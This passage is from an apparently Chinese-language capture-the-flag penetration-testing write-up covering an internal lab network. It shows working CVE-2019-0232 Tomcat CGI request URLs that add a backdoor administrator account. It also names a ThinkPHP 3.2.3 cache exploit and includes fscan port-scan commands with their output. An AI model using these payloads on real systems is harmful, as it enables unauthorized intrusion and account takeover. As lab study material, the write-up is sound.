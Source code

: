 ```
 - 135
 - 3389
192.168.80.254
 - 
```

还有一个`192.168.11.200`开有8080和8009，一眼Tomcat

通过这篇文章 https://www.cnblogs.com/one-seven/p/15211448.html

利用CVE-2019-0232来打

添加用户

```bash
http://192.168.11.200:8080/cgi-bin/hello.bat?c:/windows/system32/net%20user%20Ki1ro%20!QAZ1qaz%20%2Fadd

http://192.168.11.200:8080/cgi-bin/hello.bat?c:/windows/system32/net%20localgroup%20Administrators%20Ki1ro%20%2Fadd
```

### flag4

rdp连接，获取flag

![image-20231018212019265](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018212019265.png)

我们再来看看 `192.168.11.211`这台机子

fscan已经扫出是`ThinkPHP`框架

查看一下版本 `/thinkphp/ThinkPHP.php`，为 V3.2.3

![image-20231019092548129](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231019092548129.png)

按照 https://www.hacking8.com/bug-web/Thinkphp/Thinkphp-3.x-%E6%BC%8F%E6%B4%9E/Thinkphp-3.2.3-%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E.html Thinkphp 3.2.3 缓存漏洞打

但要通过弱密码到后台去打 `/admin.php`

### flag5

获取flag

![image-20231019103919289](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231019103919289.png)

又用fscan扫一下`192.168.10.100`，这次开了全端口

```
fscan.exe -h 192.168.10.100 -p 1-65535
```

```bash
[*] Icmp alive hosts len is: 1
192.168.10.100:22 open
192.168.10.100:6000 open
192.168.10.100:7190 open
192.168.10.100:52089 open
192.168.10.100:52189 open
192.168.10.100:52389 open
[*] alive ports len is: 6
start vulscan
[*] WebTitle: http://192.168.10.100:7190 code:302 len:0      title:None 跳转url: http://192.168.10.100:7190/auth/login?ref=/
[*] WebTitle: http://192.168.10.100:7190/auth/login?ref=/ code:200 len:7841   title:登录::TELEPORT
[+] InfoScan:http://192.168.10.100:7190/auth/login?ref=/ [TELEPORT堡垒机]
```
